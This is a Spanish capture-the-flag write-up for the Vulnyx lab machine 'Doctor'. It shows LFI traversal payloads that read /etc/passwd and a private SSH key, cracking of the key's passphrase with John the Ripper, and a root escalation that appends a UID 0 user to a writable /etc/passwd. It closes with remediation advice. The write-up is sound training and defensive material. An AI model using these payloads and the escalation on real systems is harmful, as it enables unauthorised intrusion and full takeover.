







# Doctor — Vulnyx

**Dificultad:** Low

**Plataforma:** [Vulnyx](https://vulnyx.com/)

**Vector de ataque:** LFI → SSH key cracking → Escritura arbitraria en `/etc/passwd`

## Resumen

Máquina Linux que expone un servicio web vulnerable a Local File Inclusion (LFI), explotado para extraer una clave SSH privada cifrada. La passphrase se obtiene mediante ataque offline con John the Ripper. Una vez dentro, permisos de escritura mal configurados sobre `/etc/passwd` permiten escalar directamente a root.

## Recon

Identificación del host en la red local:

```bash
arp-scan -I eth0 --localnet
```

Objetivo: `192.168.1.79`

Escaneo de puertos:

```bash
nmap -p- --open --min-rate 5000 -n -Pn -sC -sV 192.168.1.79 -oN scan
```


Resultado: puertos **22 (SSH)** y **80 (HTTP)** abiertos.

### Enumeración web

Fuzzing inicial con `dirb` y `wfuzz` (búsqueda de subdominios) sin resultados relevantes. La web, tras revisión manual, corresponde a una clínica médica ficticia con secciones de personal (doctores) y un blog.

### SSH

```bash
ssh -v alom@192.168.1.79
```

El servidor únicamente ofrece autenticación por clave pública (`Authentications that can continue: publickey`), descartando ataques de fuerza bruta por contraseña.

## Vulnerabilidades

### 1. Local File Inclusion (LFI)

**Endpoint:** `doctor-item.php?include=`

```
http://192.168.1.79/doctor-item.php?include=Doctors.html
```

Se pasa sin sanitizar la función `include()` de PHP en el backend que permite especificar rutas del sistema de archivos. Esto permite la lectura de archivos sensibles del servidor y potencial ejecución remota de código.

**PoC:**

```
http://192.168.1.79/doctor-item.php?include=../../../../etc/passwd
```


### 2. `/etc/passwd` con permisos de escritura

```bash
ls -la /etc/passwd
```

Archivo de usuarios del sistema editable por cualquier usuario. Esto permite añadir nuevos usuarios con UID/GID `0`, consiguiendo privilegios root de manera sencilla.

## Explotación

### Lectura de `/etc/passwd` vía LFI

```
http://192.168.1.79/../../../../etc/passwd
```

Identificado usuario del sistema `admin`.

### Extracción de la clave SSH privada

```
http://192.168.1.79/../../../home/admin/.ssh/id_rsa
```



Obtengo clave RSA cifrada (`Proc-Type: 4,ENCRYPTED`). Reconstruimos los saltos de línea correctos entre cabecera, `Proc-Type`, `DEK-Info` y el cuerpo base64) para que SSH pueda interpretarlo.

Formato corregido y permisos asignados:

```bash
chmod 600 id_rsa
```

### Cracking de la passphrase

La clave está protegida por contraseña. Extraigo el hash:

```bash
ssh2john id_rsa > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```


Passphrase obtenida: `unicorn`

### Acceso SSH

```bash
ssh -i id_rsa admin@192.168.1.79
```



Éxito en la autenticación consigo shell como `admin`.

**Flag de usuario:** `0819e6dfb35db7c61353e4dce311b397`

## Escalada de privilegios

Enumeración estándar:

```bash
sudo -l                          # sin privilegios sudo
find / -perm -4000 2>/dev/null   # binarios SUID estándar del sistema, sin vector
cat /etc/crontab                 # sin tareas explotables
```

Busco archivos con permisos de escritura por el usuario actual:

```bash
find / -writable -type f 2>/dev/null
```

Identifico `/etc/passwd` como archivo editable. Verifico permisos:

```bash
ls -la /etc/passwd
```


Genero hash de contraseña UID/GID `0`:

```bash
openssl passwd -1 -salt xyz doctor
# hash: $1$xyz$q8r9vf9p8ELie2S/VMOWy1

echo 'pwnd:$1$xyz$q8r9vf9p8ELie2S/VMOWy1:0:0:root:/root:/bin/bash' >> /etc/passwd
```

Cambio al nuevo usuario:

```bash
su pwnd
```

Obtengo acceso como root:

```bash
id
# uid=0(root) gid=0(root) groups=0(root)
```


**Flag de root:** `dfde8cc67ed8819b2386dc74e472ecc6`

## Soluciones

- **LFI:** validar y sanitizar cualquier input usado en funciones de inclusión de archivos (`include`, `require`); usar listas blancas de archivos permitidos.
- **Clave SSH sin protección adecuada de acceso:** una clave privada nunca debería ser accesible vía web, cifrada o no. El LFI expone el problema, pero la causa raíz es la falta de control de acceso al filesystem del servidor.
- **Passphrase débil:** `unicorn` es crackeable con wordlists comunes. Las passphrases de claves SSH deben tener estándares fuertes de seguridad.
- **Permisos de `/etc/passwd`:** archivo crítico del sistema con permisos de escritura para un usuario no privilegiado. Debe mantenerse `644 root:root` sin excepción.
